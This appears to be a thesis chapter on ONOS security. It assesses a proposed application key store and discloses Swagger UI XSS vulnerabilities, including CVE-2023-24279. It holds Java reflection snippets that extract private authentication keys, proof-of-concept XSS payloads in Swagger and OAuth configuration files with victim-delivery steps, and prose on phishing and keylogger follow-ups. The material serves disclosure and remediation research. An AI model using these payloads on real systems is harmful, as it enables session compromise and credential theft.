\chapter{Security}

\section{Security of the proposed solution}

This section deals with the security of the new proposed solution for the detection of malicious applications using Cross App Poisoning attacks. It is essential that the changes made to ONOS don't introduce new vulnerabilities or methods that lower the general level of security of the technologies used. The focus is on the application key store, its exposed APIs and the whole authentication keys lifecycle.

\subsection{ApplicationKeyStore}

%% Why the store cannot be poisoned
In this subsection we are going to ask questions and find answers about the security of the application key store. To understand how it's done and how it works, a detailed description of the code that makes up the data store is in the section "ApplicationKeyStore" of chapter 3. Just to recap, let's remember that these functions are implemented:
\begin{itemize}
\item obviously the public functions to activate and deactivate the application
\item the private \textbf{getKey()} method which takes an application name as input and returns the corresponding key
\item the public method \textbf{generateKey()} to generate a security key by taking an application name as input
\item the public method \textbf{accessGranted()} which takes the credentials as input and checks if they are valid
\item the public method \textbf{log()} which takes as input the authentication credentials and a string to log
\item the private method \textbf{appNameOk()} which checks if the name of an application contains spaces
\item the private method \textbf{createFile()} that takes care of creating the log file
\end{itemize}

Given this scenario, we are not interested in private methods since they cannot be exploited for malicious actions (we will see later that this is not exactly true, but there is also a solution for that problem), so we focus only on public methods, i.e. accessible to other applications. In this case \textbf{accessGranted()}, \textbf{log()}, and \textbf{generateKey()} must be reviewed.
If an attacker has access to the function "accessGranted" the only action that can be carried out is check if the given credentials are valid, no more. The only attack that is possible to carry out with this function is a brute-force attack, but as we will see in the following subsection (Key Generation and Distribution), it has a success probability that is close to zero. So we consider this function to be safe and not usable in any type of really viable attack.
\medskip

The second function that is exposed to various applications is log(). What could an attacker who decides to use this feature obtain? Consider that among the three mandatory parameters two of them are the authentication credentials (the application name and the security key). This means that if an attacker plans to inject fake logs into the log file they could potentially do so, but only for applications for which they have access to correct credentials. We will see later that if the n applications with which the production environment is deployed are well written, they do not leak any authentication data and therefore the attacker can only have access to the credentials of the malicious application. This means that the only fake logs that can be injected into the log file by the malicious application have labels with its authentication credentials. This could be a problem because a malicious application could use an API call with these parameters to pretend that it used an API call and instead just logged a string.
\begin{lstlisting}[language=Java]
applicationKeyStore.log(APPNAME, APPKEY, "removeLocation 00:00:00:00:00:04/None of:0000000000000002/1");

...
// resulting log in log file:
// 1678289474103 org.edoardottt.malhosttracking.app removeLocation 00:00:00:00:00:04/None of:0000000000000002/1
\end{lstlisting}
However, it should also be noted that the actual API calls made by the malicious application are actually logged and cannot be modified in any way.
Finally, as it has always been said, Security-mode ONOS is a security method necessary to safely use an ONOS environment. In this case, to limit the security risks to the minimum (actually cancel them completely) it is sufficient to prohibit all applications from accessing the log() API of the application key store.
\medskip

The last public method accessible to other applications that could be used for malicious actions is generateKey(). Unlike the previous one, the access to this method cannot be blocked because the applications must use it to receive the authentication key.
This method can be used in multiple malicious ways:
\begin{itemize}
    \item An application could try to register itself using a name that has nothing to do with its main tasks: for example an application that has the only purpose of host tracking registers itself (and therefore the logs that refer to the actions performed by this application will have this label) with the name "org.onosproject.routing". If the malicious application uses the APIs, the network operator can see which applications are using the APIs in the log file, but by doing so, eliminating the names of the n well-known applications, only one name remains; so the remaining name is necessarily the one the application under test registered with.
    \item A security issue that has already been somewhat addressed is the exploitation of a race condition in registering credentials with this method. Since it is not possible to control the order in which applications are registered, if the malicious application manages to register before others, it may choose a legitimate application name that may be listed for registration. For example the name "org.onosproject.fwd" (reactive forwarding application) is used for registration by the malicious application before the real reactive forwarding application. In this case we will have a clearly visible and greppable error in the log file thanks to the label "[ERROR] Key already exists". As already mentioned several times, a log with an error label means that there's something wrong.
    \item Finally, a malicious application could register multiple application names (and therefore consequently have more than one pair of valid credentials) to deceive the analysis on the log file. Let's consider the case where the malicious application registers two applications with the names "org.evil.app1" and "org.evil.app2". The malicious application could distribute API calls using the two pairs of credentials to carry out an attack and at the same time don't appear in the CAP attack vector graph (shown in the previous chapter) as an exploitable attack vector. As in the first point, the network operator has complete control of the applications that use the authenticated ONOS APIs and therefore can check that "removed" the n already tested starting applications only one remains that is the application under testing (but in this case two names remain).
\end{itemize}

That said, it is important to point this out: a malicious application could use this public method to enumerate the active applications in the ONOS environment. When the malicious application calls the generateKey() API it can figure out if a name has already been registered or not depending on the response (whether it gets the authentication key or an error message). Obviously, this would also be a brute-force attack, but the attacker can facilitate the task using a list of known or likely to be registered names (e.g. org.onosproject.fwd and other applications developed by ONOS maintainers)
\medskip

Another security issue that could affect the application key store is the Cross App Poisoning attack itself. Can this data store be injected with malicious payloads and used in a Cross App Poisoning attack? It depends. In order to conduct a Cross App Poisoning attack some entity needs to store data and in this case the only injection point is the application name which is used in application registration. At the time of writing this data store does not implement a function that returns the list of names of registered applications and therefore a read action from this data store is not possible (so a Cross App Poisoning leveraging this data store can't be performed). In the case this function is added in the future, it should be considered as a potential vector for a Cross App Poisoning attack and therefore it is necessary to pay the maximum attention to the values read (for example using input sanitization and additional security checks). That said, even if the malicious application registers with a name that is used as a payload to conduct a Cross App Poisoning attack, the workaround for this problem would be to add an instruction that logs the application name parameter with which an application tries to register. Even if the application under test registers only once and does not contain any prohibited characters (such as a space), the network operator has the possibility to read which name the application under test has chosen and evaluate whether it is a malicious payload or a legitimate name.

\subsection{Key Generation and Distribution}

%% - Is the key secure? Y 
A security problem that may arise is that the security keys produced by the application key store are easily guessable. In the event that a security key is easily guessable (or in any case within a reasonable time), this puts the entire proposed solution at risk. In this case a malicious application could use the public API accessGranted() of the application key store to understand if the credentials are valid or not. As already specified in the previous subsection, a malicious application could obtain the list of registered application names via the generateKey() public API. To avoid this first risk, application names generated by combining evocative names with pseudorandomly generated values could be used, such as "org.onosproject.fwd.eddd4aeca67d260753cbca6". In this case a malicious application would have a lot of difficulty in guessing a valid application name and at the same time the logs would have understandable names by removing the pseudorandomly generated part. Even ignoring this risk and taking into account that a malicious application has already obtained the complete list of registered application names (so a big advantage), we have to make sure that the authentication keys are secure and unguessable.
\medskip

In this scenario many authentication methods can be used, such as a password, a token, a cryptographic challenge or other more advanced encryption methods (symmetric or asymmetric key). However, a simple but effective solution has been implemented such as generating a long sequence of pseudorandomly generated values. Inside the generateKey() method (after the proper security checks) there is this piece of code taking care of generating the authentication key. The first two lines define two variables that are used as boundaries for choosing the range of characters that compose the authentication key. The ASCII (American Standard Code for Information Interchange) table is a character encoding standard to represent text in computers. Since it was invented many years ago (standard began in May 1961) it has limited data points, only 128 characters (of which only 95 are printable characters) that can be represented using seven bits. The left limit for the characters range is 48 (110000 in binary) which corresponds to zero in the ASCII representation and the right limit is 122 (1111010 in binary) which corresponds to the letter lowercase z. The third line defines the length of the authentication key. The fourth line generates a Java Random object that is used for pseudorandomly generate the characters. The remaining code is a sequential methods call in which: \textbf{random.ints(leftLimit, rightLimit + 1)} generates a stream of integers in the specified range. \textbf{filter} takes as input the output of the previous method and filters the input only accepting the values for which the specified condition is true, in this case values between the ranges 58 - 64 and 91 - 96 are ignored (all symbols). \textbf{limit} limits the stream to the specified input, in this case the value is 60 so this will be the number of the outputted values. \textbf{collect} collects all the output values using a StringBuilder class and appending the values to the builder, lastly \textbf{toString} outputs a string that is the actual authentication key. The security of the Random Java object and the unpredictability of the generated values is assumed to be safe.
\begin{lstlisting}[language=Java,firstnumber=82]
int leftLimit = 48; // numeral '0'
int rightLimit = 122; // letter 'z'
int targetStringLength = 60;
Random random = new Random();

String generatedString = random.ints(leftLimit, rightLimit + 1)
        .filter(i -> (i <= 57 || i >= 65) && (i <= 90 || i >= 97))
        .limit(targetStringLength)
        .collect(StringBuilder::new, StringBuilder::appendCodePoint, StringBuilder::append)
        .toString();
\end{lstlisting}

An example of authentication key produced using this method is the following: 
\begin{lstlisting}
PQv8YmBqeGD2De557GS8mTfT1kbhzmuRwvizb3aKBnLhpB6WyYxgrkBobVWt
\end{lstlisting}

%% - math details
We can conclude that the characters used to generate the pseudorandom value are digits, uppercase and lowercase letters of the English alphabet. Since the English alphabet has 26 characters, the list of characters used to generate a key is composed of 62 values ($26 + 26 + 10$). This means that the number of all the possible authentication keys is 
\begin{align}
N(k) = 62^{60}
\end{align}

since for each iteration of the characters generation it's possible to pick a value among 62. Notice that a value like this is about 3.495436e+107 (for the number lovers more than three hundred forty-nine quattuortrigintillion). 

%% - how long does it take to guess a key
How long would it take for a malicious application to generate all possible authentication keys to launch a brute-force attack? In this scenario there are many variables that we do not consider to simplify the calculation, however it need to be emphasized that in doing so we are giving the opponent a considerable advantage. Let's consider a computer with a 4GHz processor. This means that it can complete 4 billion elementary instructions per second. Let's pretend that the processor is able to generate and compare with the key to guess 4 billion authentication keys per second (note that it doesn't work like this, we are talking about basic operations and it takes more than one basic operation to just generate a single character that compose the authentication key, plus there are other instructions to execute besides key generation). This means that by dividing the number of possible authentication keys by the number of keys generated and compared in one second we get the number of seconds needed to complete the brute-force attack.

\begin{align}
C(p) = 2^{32} \sim 4 bln
\end{align}

\begin{align}
N(k)/C(p) = 62^{60} / 2^{32} \sim 8^{97}
\end{align}

With these assumptions it would take 8.1384464e+97 seconds (around eighty untrigintillion) to generate and compare all the possible authentication keys and so complete a brute-force attack. Of course we are in a probabilistic world, so the correct key could be the first or the last one to be compared. Consider also that we gave to the attacker an incredible amount of advantage: the computation power of a single ONOS application can't take all the power available in the machine (just because the machine has other calculations on its own, but also because the network operator would notice a suspicious CPU usage), in order to produce a single pseudorandom character that compose the 60-character authentication key the CPU spends way more than a single basic operation and because the comparing takes time too. That said, even if we ignore all the advantages given to the potential attacker, the amount of time needed to generate and compare the keys produced by the attacker is considered large enough to be deemed safe.
\medskip

%% - Is the key distribution secure? Y because single controller, otherwise if multiple hosts needs encryption
Once the key has been generated it must be distributed to the various applications which use the generateKey() method to register themselves in the application key store. In the ONOS environment considered in this research activity (single ONOS controller) there is no need to add additional security methods to securely distribute the keys. Since there is a single ONOS controller the keys are distributed in the same machine without any risk of information disclosure. However, if the ONOS controller is replicated using multiple nodes there is no security issue between applications and the main ONOS node, but some security mechanisms must be implemented between ONOS main node and replicas. The communication between ONOS main node and the replicas are needed to exchange events and update the replicated data stores in order to provide a fault-tolerant system. In such scenario the data exchanged over the network must be encrypted in a secure manner (e.g. using HTTP over TLS connections) to avoid the risk of an attacker sniffing the network packets and obtaining valid application keys.

\subsection{Key Storage}

This subsection deals with security regarding authentication keys while they are stored in the data store. There are two main attack methods that can endanger data store security: Java reflection package and attacks targeting plaintext keys in RAM. We're going to evaluate the security risks and their respective defense mechanisms if available.

%% - Java reflection (https://www.oracle.com/technical-resources/articles/java/javareflection.html)
The technical article "Using Java Reflection" written by Glen McCluskey in 1998 defines the Java Reflection package using this definition\cite{javareflection}:
\begin{quoting}[font=itshape, begintext={"}, endtext={"}]
Reflection is a feature in the Java programming language. It allows an executing Java program to examine or "introspect" upon itself, and manipulate internal properties of the program. For example, it's possible for a Java class to obtain the names of all its members and display them.
\end{quoting}
It's an ability that not all the programming languages have, as example Pascal, C or C++ programs cannot determine the functions defined in the program at runtime.
A simple example of using the Java Reflection package is the following (taken from the mentioned technical article). This program imports the Reflection package and defines a public class called "DumpMethods". This class in the main function gets the Class information of the class named as the first argument passed as input in stdin, retrieves all the declared methods and then prints them in stdout. Note that using this method the inherited methods are not collected (use getMethods() to get also inherited methods).
\begin{lstlisting}[language=Java]
import java.lang.reflect.*;

   public class DumpMethods {
      public static void main(String args[])
      {
         try {
            Class c = Class.forName(args[0]);
            Method m[] = c.getDeclaredMethods();
            for (int i = 0; i < m.length; i++)
            System.out.println(m[i].toString());
         }
         catch (Throwable e) {
            System.err.println(e);
         }
      }
   }
\end{lstlisting}
When the program is executed using the input "java.util.Stack", the methods defined in the input class are printed in standard output:
\begin{lstlisting}[language=Bash]
$> java DumpMethods java.util.Stack

public java.lang.Object java.util.Stack.push(java.lang.Object)
public synchronized java.lang.Object java.util.Stack.pop()
public synchronized java.lang.Object java.util.Stack.peek()
public boolean java.util.Stack.empty()
public synchronized int java.util.Stack.search(java.lang.Object)
\end{lstlisting}

%% - example of invoking private methods (code)
Even if this is a powerful technique to obtain information about a Java class, a potential attacker already knows which are the methods defined by the ApplicationKeyStore class. However there are two techniques that can be exploited in order to carry out powerful attacks against the application key store. The first method is invoking private methods of the victim class. In the following code snippet we consider that an instance of the ApplicationKeyStore called "applicationKeyStore" was defined. In the main function if an exception is not thrown, the ApplicationKeyStore class reference is found, then the input parameter is defined and finally a reference to the method getKey() is obtained. Lastly, the method getKey() is invoked with the parameter "org.onosproject.fwd" and the result is printed on standard output. Using this method a malicious application could obtain the value of the authentication key of any registered application even if the method getKey is private.
\begin{lstlisting}[language=Java]
import java.lang.reflect.*;
import org.onosproject.security.ApplicationKeyStore;
      ...
      public static void main(String args[])
      {
         try {
            Class cls = Class.forName("ApplicationKeyStore");
            Class partypes[] = new Class[1];
            partypes[0] = String.TYPE;
            Method meth = cls.getMethod("getKey", partypes);
            Object arglist[] = new Object[1];
            arglist[0] = "org.onosproject.fwd";
            Object retobj = meth.invoke(applicationKeyStore, arglist);
            String retval = (String)retobj;
            System.out.println(retval);
         }
         catch (Throwable e) {
            System.err.println(e);
         }
      }
   }
\end{lstlisting}

%% - example of changing private fields (code)
The second technique is to accessing directly the private fields. As in the previous snippet we consider that an instance of the ApplicationKeyStore called "applicationKeyStore" was defined. The lines 7 and 8 defines the Class and the Field object (recall that the code is not a secret even for the attacker and so they know the private field names), finally the value of the private field is obtained. Here an attacker can easily obtain access to the hashmap holding the values for the application authentication and so it's an extremely powerful attack. Notice that here the attacker obtain access to the whole data store without even have to guess the application names.
\begin{lstlisting}[language=Java]
import java.lang.reflect.*;
import org.onosproject.security.ApplicationKeyStore;
   ...
   public static void main(String args[])
   {
      try {
         Class cls = Class.forName("ApplicationKeyStore");
         Field fld = cls.getField("keyStore");
         System.out.println("Key Store = " + applicationKeyStore.keyStore);
      } 
      catch (Throwable e) {
         System.err.println(e);
      }
   }
\end{lstlisting}

The Reflection package is a powerful method for testing Java code and access at runtime even private fields to have a better overview of what is happening in the program. However, when it comes to security it puts at big risk the whole environment. That's why the security community suggests to disable the import of this package in production environments. This can be done by using a Java SecurityManager class and a robust security policy. The SecurityManager is a class that checks at runtime if some unsafe operations are being done and prevent them to be executed. The Reflection package is already included as "forbidden" in the security policy file called "java.security" in ONOS default configuration (even if the file is outdated now). When Security-Mode ONOS is used, the SecurityManager and its associated policy is activated too. When an application tries to import the Reflection package, an exception is thrown and the access is denied. This completely removes this security issue.
\begin{lstlisting}[language=Java]
@Override
public void checkPackageAccess(String pkg){
    if (pkg.startsWith("java.lang.reflect")){
        throw new SecurityException("Reflection is not allowed!");
    }
}
\end{lstlisting}

%% - RAM attacks
Another security issue is the fact that authentication keys are stored in a clear-text hashmap in RAM memory. A malicious application could read the data in RAM and find the authentication keys. It is not an easy attack to carry out, but the risk must still be taken into consideration. In this case it is up to the network operator to decide what to do. One could either accept the risk or equip the system with an Hardware Security Module, so a physical computing device that safeguards and manages secrets.
\medskip

%% - What about key security from legit apps perspective? Idc
The last consideration is about legitimate applications and how to write an application in a secure way. First of all the good coding and basic security practices should be followed (more generally in any type of program). After that, both functional and security tests must be carried out. An application that exposes some methods to interact with the outside must pay close attention to security because it could be affected by security vulnerabilities. If this happens, an attacker could completely take over the application. In this case, an attacker could use the vulnerable application and its respective authentication credentials to use the ONOS API on behalf of the vulnerable application.

\clearpage


\section{Vulnerability research}

A good chunk of the time spent researching a way to detect potential Cross App Poisoning attacks in ONOS was also spent researching vulnerabilities and security issues. During this period were found some vulnerabilities that had never been reported by anyone and that are also present in the latest released version of ONOS (v2.7.0 at the time of writing). Many test methodologies have been used such as static analysis, searching for functions that could lead to security problems, dependency analysis, black-box testing. Some bugs or problems have successfully led to security problems exploitable by an attacker, while others have not led to an actual reproducible attack, but still may be exploited in certain situations or some other researcher may find an effective way to use them in an attack.

\subsection{CVE-2023-24279}

Various methods have been used to search for vulnerabilities within ONOS. One of them was searching for keywords within the ONOS source code using the advanced search provided by GitHub. While reviewing the code a path looked interesting: /onos/v1/docs. This path is not even documented in the official ONOS documentation. The code that generates the content for this path is in the onos/web/api/src/main/resources/docs/ folder. It is not Java code, but HTML, Javascript files and other multimedia resources. Looking at GitHub commits the last change is dated February 8 2017 with the message "Bump swagger ui from 2.2.5 to 2.2.10". Actually in the docs folder there are more than a few files referencing SwaggerUI. Simply said, SwaggerUI allows you to view the API documentation in a browser in a smart way and with many features (for example, compose complex requests with various parameters and test their operation by also reading the response from the server). So while searching for vulnerabilities in SwaggerUI version v2.2.10 a known vulnerability was found.

The vulnerability research led to the discovery of CVE-2023-24279, categorized under the Weakness type "Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')". The MITRE organization that is in charge of CVEs management was contacted and a new ID requested. The version 1.9.0 was released in February 2017, this means ONOS was vulnerable to this attack for six years and no one reported the vulnerability. The NIST (National Institute of Standards and Technology) organization in the US National Vulnerability Database describes the vulnerability in this way \cite{CVE-2023-24279}:
\begin{quoting}[font=itshape, begintext={"}, endtext={"}]
A cross-site scripting (XSS) vulnerability in Open Networking Foundation ONOS from version v1.9.0 to v2.7.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the url parameter of the API documentation dashboard.
\end{quoting}
An OpenAPI configuration file is required to create an API documentation page with Swagger. The OpenAPI Specification (previously known as the Swagger Specification) is a specification for machine-readable description of web services. There are two methods for creating this specification: either statically by creating a file that respects certain rules (typically in JSON or YAML format) or dynamically generating the configuration file through a programming language. The specification file doesn't only specify the APIs, their inputs and outputs but a lot of surrounding information can be set like developers contacts, authentication methods ad other settings \cite{openapi}. ONOS uses the second method and the API specification file is created at runtime when ONOS starts. The Java file onos/web/api/src/main/java/org/onosproject/rest/resources
/ApiDocResource.java takes care of serving the web content to the path onos/v1/docs. Once you have accessed this resource, you can read the documentation relating to the exposed APIs and test their functionalities. Actually there is a third method to make Swagger read the configuration file and that is through a GET parameter in the URL. If the "url" parameter is specified, Swagger reads the parameter content and makes an HTTP GET request to that value: if the HTTP response respects the rules of a compliant configuration file, it interprets the new instructions and shows new content based on the information it just read.
The security issue was notified to the development team via the GitHub issue "XSS Vulnerability with Swagger UI v3" (swagger-api/swagger-ui/issues/3847) in 2017. Specifically, in the configuration file version 2.0 it is possible to enter details that do not specifically concern the APIs or their functioning, such as information on how to contact the developers. These fields are read by Swagger and used to build the web page that the user will then view. The problem lies in the fact that in the "url" field under the "contact" subsection of the "info" section it is possible to insert Javascript code which will then be executed in the user's browser (now a victim). Although many security measures have been implemented to avoid Cross Site Scripting attacks, Swagger does not sanitize inputs that use the "javascript:" protocol, so effectively if the url is formatted as "javascript:alert()", when the user clicks on the link to contact developers will not be redirected to a contact page but that Javascript code will be executed. The following snippet is an example of a payload that can be used in the attack.
\begin{lstlisting}
{
  "swagger" : "2.0",
  "info" : {
    "version" : "1.0.100",
    "title" : "Swagger UI v2.2.10 XSS POC",
    "description" : "Swagger UI v2.2.10 XSS POC",
    "contact" : {
      "name" : "edoardottt",
      "url" : "javascript:alert(document.cookie)",
      "email" : "ottavianelli.1756005@studenti.uniroma1.it"
    },
  },
}
\end{lstlisting}

The malicious configuration file can be also generated using YAML language.
\begin{lstlisting}
swagger: "2.0",
info: 
  title: "Swagger UI v2.2.10 XSS POC",
  description: "Swagger UI v2.2.10 XSS POC"
  version: "1.0.100" 
  contact: 
    name: "edoardottt",
    url: "javascript:alert(document.cookie)",
    email: "ottavianelli.1756005@studenti.uniroma1.it"
\end{lstlisting}

In order to reproduce the vulnerability:
\begin{itemize}
    \item Make sure ONOS is up and running
    \item Craft a malicious configuration file containing the payload for the attack
    \item Generate the final URL that should be visited by the victim (http://ONOS-IP:8181\\/onos/v1/docs/?url=URL-PAYLOAD-FILE (URL-PAYLOAD-FILE is the URL pointing to the file containing the payload)
    \item Deliver the final URL to the victim
    \item If the victim clicks on the link the Javascript payload will be executed
\end{itemize}

There are three types of Cross Site Scripting attacks:
\begin{itemize}
    \item \texttt{DOM based}: The vulnerability lies in the frontend code of the web service, when the malicious payload is injected the payload is executed in the victim's browser.
    \item \texttt{Reflected}: The vulnerability lies in the backend code of the web service, when the malicious payload is injected a web request is made to the server and the victim's browser renders the resulting web page.
    \item \texttt{Stored}: The vulnerability lies in the backend code of the web service, a malicious payload is stored in the backend and the web page is built already with the payload inside.
\end{itemize}

In general stored Cross Site Scripting attacks are the most profitable for attackers because they don't require user interaction, however it also depends on the web page settings (cookies, Content Security Policy, information on the vulnerable web page...). The CVE-2023-24279 vulnerability is a DOM based Cross Site Scripting attack. In this case the victim must click on the URL crafted by the attacker and on the link in which the attacker put the malicious payload (there are multiple injection points).
\medskip

What could an attacker achieve by exploiting this vulnerability? The most valuable item for an attacker would be authentication cookies. If the attacker were able to collect (and this is usually the first thought of an attacker) the authentication cookies he could use the web page as if they were the victim (even better if the victim is the system administrator). Unfortunately for the attacker but fortunately for all non-malicious users, session cookies are protected with the HTTPONLY flag. This flag is a value that if set to true prevents cookies from being read via Javascript code but only via legitimate HTTP connections. One viable attack is to use phishing to trick the victim. For example, an attacker could create a payload that after a certain number of seconds changes the content of the page and displays an error message stating that the session has expired and the login credentials must be re-entered. Obviously the authentication form is created by the attacker and instead of being sent to the ONOS server they will be sent to the attacker's server. It's up to the attacker's ability to make the error message, the fake login page and the whole process look natural so that the credibility level rises and the attack is successfully carried out. In this scenario the attacker receives the access credentials to the web user interface and the ONOS shell via SSH. Another attack that can be implemented in this scenario is the use of a keylogger. A keylogger is a software that records what the victim types with the keyboard and sends it to the attacker's server. If a little social engineering is used here as well, it is possible that the attacker receives valuable information. For example an attacker could create an OpenAPI configuration file that defines several real existing ONOS APIs and create some modified APIs instead. For example, an API that could trick the victim is an endpoint that takes the current password and a new password as input to change the user's password. When the victim will try this API in the Swagger UI, the values inputted by the victim will be sent to the attacker's server (notice that the base server IP address must be changed in the OpenAPI configuration file). In this case as in the previous one the attacker receives the access credentials to the web user interface and the ONOS shell via SSH.
\medskip

In general, the obvious remediation is to update the vulnerable dependency to the patched version. In this case the problem is that the version used is so outdated that even the patched version is itself vulnerable to other types of attacks. In this case the best solution is update to the latest version available (4.18.2 at the time of writing). One tool that could help in dependency management is Dependabot provided by GitHub. This tool automatically scans project's dependencies and notifies maintainers if a new version of a dependency exists. Then it is up to the maintainers to understand if it makes sense to effectively update the dependency (a security problem has been solved as in this case), or the new version could have some breaking changes and therefore break some functionality.

\subsection{Security issues}
%% - methodology used
This subsection includes security issues that have not (yet) been assigned a CVE identification number, but which an attacker can still use to carry out attacks. The methodologies used to search for potential vulnerabilities are the same as described above.

The Swagger version used in ONOS is vulnerable to another DOM based Cross Site Scripting attack. In particular, another type of payload in a field of the configuration file can be used to carry out an attack. In this case, the interactions that the victim must carry out are different too. As in the previous attack, the path /onos/v1/docs accepts the HTTP GET parameter named "url". The input URL leads to a resource which responds with a configuration file and an OAuth configuration system for authorizing entities to access certain resources can be used (in this case, the second version of OAuth was used, OAuth2.0). It should be noted that the official OAuth documentation reiterates that it is an authorization and not an authentication protocol, this means that the identity of the entity requesting the resource is not verified but only if the entity has the necessary authorizations to access it \cite{oauth}. From the official OAuth website:
\begin{quoting}[font=itshape, begintext={"}, endtext={"}]
OAuth 2.0, which stands for “Open Authorization”, is a standard designed to allow a website or application to access resources hosted by other web apps on behalf of a user. [...]
OAuth 2.0 is an authorization protocol and NOT an authentication protocol. As such, it is designed primarily as a means of granting access to a set of resources, for example, remote APIs or user data.
\end{quoting}

The malicious configuration file can be crafted as follows. The first line defines the version of the Swagger specification used (in this case 2.0). From the second to the fifth line, some context information is defined such as the title of the API documentation page, the description and the version of the APIs (these fields can be arbitrary strings). Line 6 defines the hostname that serves the APIs, line 7 the base path and line 8 the various protocols that can be used. From line 11 onwards we have the actual configuration of the OAuth authorization protocol. The type (in this case the second version) and the supported authorization method (in this case a security token) are defined. The "authorizationUrl" field is actually the vulnerable field where the payload must be placed in order to carry out the attack. As in the previous one, this field is used to build the page that the victim will view; in particular it is inserted in the href attribute of an anchor tag (simply called a clickable link). Also in this case many methods of Cross Site Scripting attacks prevention have been used but the Javascript protocol "javascript:" is not taken into consideration. By doing so it is possible to insert a payload that uses this protocol and when the victim clicks on the link the Javascript code inserted in the link will be executed in the victim's browser. The tokenUrl field is instead used to specify the URL to which the entity requesting the authorization must make a request to obtain the authorization token. Finally, the scopes field defines the various scopes of the authorization token (read, write or admin) with their respective description.
\begin{lstlisting}
swagger: "2.0"
info:
  title: edoardottt XSS
  description: XSS ONOS POC
  version: 1.0.0
host: edoardoottavianelli.it
basePath: /v1
schemes:
  - https

securityDefinitions:
  OAuth2:
    type: oauth2
    flow: accessCode
    authorizationUrl: javascript:alert(document.cookie)//
    tokenUrl: https://example.com/oauth/token
    scopes:
      read: Grants read access
      write: Grants write access
      admin: Grants read and write access to administrative information
\end{lstlisting}

In order to reproduce the vulnerability:
\begin{itemize}
    \item Make sure ONOS is up and running
    \item Craft a malicious configuration file containing the payload for the attack
    \item Generate the final URL that should be visited by the victim (http://ONOS-IP:8181\\/onos/v1/docs/?url=URL-PAYLOAD-FILE (URL-PAYLOAD-FILE is the URL pointing to the file containing the payload)
    \item Deliver the final URL to the victim
    \item Differently from the web page the victim sees in the previous attack, in this case on the upper right corner of the page there is an "Authorize" button. The victim must click on this button and a new window appears
    \item The windows contains authorization information and a way to authorize the victim (using OAuth protocol) in order to access the protected resources. The victim must choose at least one of the scope options listed in the window (read, write or admin) and the click on the button "Authorize".
    \item When the the victim clicks on the link the Javascript payload is executed
\end{itemize}
In this scenario, an attacker has more or less the same ways to carry out an effective attack against a victim. The web page where the malicious payload is inserted is the same as in the previous attack and therefore also here the session cookie has the HTTPONLY flag set to true (so it is not possible to obtain the session cookie to steal the victim's session via Javascript code but only over legitimate HTTP connections). The attacker could opt for the phishing method, even if slightly different from the previous one. For example they could exploit the fact that the victim has to use the OAuth authorization protocol to trick them into sending some secret information to the attacker's server. Again if the attacker gets the login credentials they can access the web user interface and the ONOS shell via SSH. The keylogger method can also be used in this case as well and the attacker would get the same information as in the previous attack.

Since the vulnerable Swagger version is the same as in the previous attack, the possible remediation can be applied in this case as well (obviously also the methods to facilitate dependency management in a safe and secure way).

%% - other things ?

\subsection{Failed attempts}
While searching for vulnerabilities various approaches and various paths were followed. As written previously, some of these led to security vulnerabilities actually exploitable by an attacker with the related possibilities of attack and their remediation. Other paths that have been studied didn't led to a working exploit but it is still worth explaining what the starting ideas were (later some researchers could benefit from these studies). 

It was already explained in chapter 2 how ONOS works and which are the components inside it. We have seen that even if ONOS environments with only one controller were considered in the study of a framework for detecting potential Cross App Poisoning attacks, it is possible to have multiple ONOS controllers in the same environment. In particular, if multiple ONOS controller nodes are used, one of these is the main node while the others are replicas. 
\begin{wrapfigure}[23]{l}{0.70\textwidth}
\caption{Event generation and delivery}
\label{fig:events}

\includegraphics[width=0.70\textwidth]{resources/Chapter-4/events.png}
\end{wrapfigure}
All the applications and the various network components interface with the main node and when there is an update in a data store of the main node these are communicated to the various replica nodes to stay up to date. This approach is useful to have a fault-tolerant network: in the event that the main node has a problem and goes in a down state or in case there is a need for maintenance and it is not possible to continue with normal operations, the main node can be voluntarily shutdown and a load distribution algorithm will elect a replica as the new main node. It's easy to understand that the more replicas there are, the more fault-tolerant the network will be, but of course the replicas need to be deployed on separate servers and so this comes at a cost. The system used to notify replica nodes are called "events". When an action that modifies a data store is performed, an event is also generated which contains all the information regarding the current state of the modified object (it can also be an inserted, removed or added). This event is sent by default to all replica nodes to update their data stores but it is also sent to all applications that have registered to receive events of that type. The figure 4.1 shows how the events generation and delivery works. When an event is generated in a data store is passed to the Delegate service and this service notifies the Event Delivery Service. The latter then shares this event both with EventListener objects both in other controllers or applications listening for specific events. From a security standpoint, this could be an important injection point.

%% - EventHostTracking app
In order to find interesting security vulnerabilities using this technique, the EventHostTracking application was implemented. This application does not differ much from the other two implemented and shown in chapter 2. The editHostStore() method is modified: an instance of the Host class and an event of the type HOST\_UPDATED with reference to the newly created host are created. The event means that an host has been updated and information about the updated host is passed as a parameter so that the event receiver can see what has been updated. Using the post() method of the EventDeliveryService class, an application can create an event and send it to all the listeners. The idea behind the attack is that ONOS implements few checks on the fields of the Host object. For example the IP and MAC addresses could contain malicious payloads and they would still be accepted.
\begin{lstlisting}[language=Java]
import org.onosproject.event.EventDeliveryService;
import org.onosproject.event.Event;
...
    @Reference(cardinality = ReferenceCardinality.MANDATORY)
    protected EventDeliveryService eventDispatcher;
...
    private void editHostStore() {
        HostId hostId = HostId.hostId("00:00:00:00:00:03/None");
        MacAddress macAddress = MacAddress.valueOf("00:00:00:00:00:03");
        DeviceId deviceId = DeviceId.deviceId("of:0000000000000004");
        PortNumber portNumber = PortNumber.portNumber((long) 1);
        HostLocation location = new HostLocation(deviceId, portNumber, (long) 1);
        IpAddress ip = IpAddress.valueOf("10.0.0.3");
        Set<IpAddress> ips = new HashSet<IpAddress>();
        ips.add(ip);
        DefaultAnnotations annotations = DefaultAnnotations.builder().build();

        Host h = new DefaultHost(ProviderId.NONE, hostId, macAddress, VlanId.NONE, location, ips, annotations);

